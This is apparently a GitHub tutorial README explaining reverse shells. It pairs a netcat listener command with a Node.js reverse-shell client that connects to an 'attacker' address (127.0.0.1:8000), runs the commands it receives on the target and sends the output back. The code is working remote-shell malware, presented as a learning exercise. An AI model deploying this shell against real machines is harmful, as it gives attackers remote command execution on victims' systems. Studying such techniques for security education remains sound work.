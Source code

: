 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :
_
"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not works. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.


![](connected_reverse_shell.png)

### Ok good, we have a connection. Now what?
Now we implement the code that will make our TARGET do something when it receives the commands.

I used: `lient.on("data", FUNCTION )`

What this function does is specifying what the client will do when it will receive data. The passed data is defined as `"data"`and the `FUNCTION` is the action the TARGET will do.


```

client.on("data", (data)=>{  

  
    let cmd = (data.toString().trimEnd()); 

    let args = cmd .split(" "); 
    
    let exec = child_process.spawn(args[0],args.slice(1)); //args.slice(1) elimina il primo elemento del vettore

    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })


})
```

#### Let's break it down.

`let cmd = (data.toString().trimEnd()); `

Here i define `cmd` as the command that is passed. the method `toString()` is used to convert the bufferized hex that arrives into a string of character.

The method `trimEnd()` cuts the last character since it is a CR LF char and could mess up with the command we want to send.


`let args = cmd .split(" ");` here i define `args` as an array of all the commands + flags that are sent. The divisor is the space.

`let exec = child_process.spawn(args[0],args.slice(1));` This is the heart of our code. This method makes the command executable on the TARGET machine.


>child_process.spawn(command[, args][, options]).
As [**node.js** documentation states:](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) 
>The child_process.spawn() method spawns a new process using the given command, with command-line arguments in args. If omitted, args defaults to an empty array.

In our code, `args[0]` is the command we want to execute, from `args[1]` there are just flags. `args.slice[1]` takes the `args[]` vector from the 1st element, not the 0th.


To conclude, we make the client  output the result of our command. Alway using ".on"

```
    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })
    
````

## An example

![](command_execute-reeverse_shell.png)












